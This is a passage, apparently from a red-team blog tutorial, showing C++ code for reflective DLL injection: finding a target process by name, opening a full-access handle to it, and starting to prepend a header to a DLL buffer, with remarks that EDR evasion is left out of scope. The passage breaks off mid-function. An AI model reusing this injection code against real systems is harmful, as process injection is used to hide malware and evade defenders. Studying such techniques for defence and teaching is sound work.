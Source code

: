 There are different method that can be used to download a file, I haven’t tested any in terms of OPSEC, just used the one I knew. After that, we want to know the PID of the process we want to target to inject our Reflective DLL into

```cpp
int RetrievePIDbyName(wchar_t* procName) {
    HANDLE hProcessSnap;
    PROCESSENTRY32 pe32;

    //to lower case the procname
    ToLowerCaseWIDE(procName);

    // Take a snapshot of all processes in the system.
    hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hProcessSnap == INVALID_HANDLE_VALUE) {
        std::cout << "[-] Unable to create snapshot of processes!" << std::endl;
        return 0;
    }

    // Set the size of the structure before using it.
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // Retrieve information about the first process and exit if unsuccessful.
    if (!Process32First(hProcessSnap, &pe32)) {
        std::cout << "[-] Unable to retrieve information about the first process!" << std::endl;
        CloseHandle(hProcessSnap);
        return 0;
    }

    // Display information about all processes in the snapshot.
    do {

        ToLowerCaseWIDE(pe32.szExeFile);
        if (wcscmp((pe32.szExeFile), procName) == 0) {
            CloseHandle(hProcessSnap);
            return pe32.th32ProcessID;
        }

    } while (Process32Next(hProcessSnap, &pe32));

    // Close the snapshot handle to release resources.
    CloseHandle(hProcessSnap);
    return 0;
}
```

Here you can definitely work on the OPSEC side of things. But since bleeding-edge techniques to bypass EDR are not topic of this blog we move forward to open and handle to the remote process and inject our beloved DLL: 

```cpp
/*----------OPEN HANDLE TO REMOTE PROCESS PLEASE----------*/

HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
if (hProc == NULL) {
    cout << "[-] Error while opening the handle to process, exiting ... " << endl;
    return 1;
}
/*--------USEFUL FUNCTION TO ADD THE INFAMOUS HEADER-------------------*/
char * addHeaderToBuffer(PBYTE dll, size_t dllSize) {
    //I create a new buffer big as the dll + header
    char* newDll = new char[dllSize + HEADER_SIZE];
    //i write the dll HEADER_SIZE bytes forward so that i have the space for the header
    memmove(newDll + HEADER_SIZE, dll, dllSize);
    // Copy the header to the beginning of the dll buffer this time
```
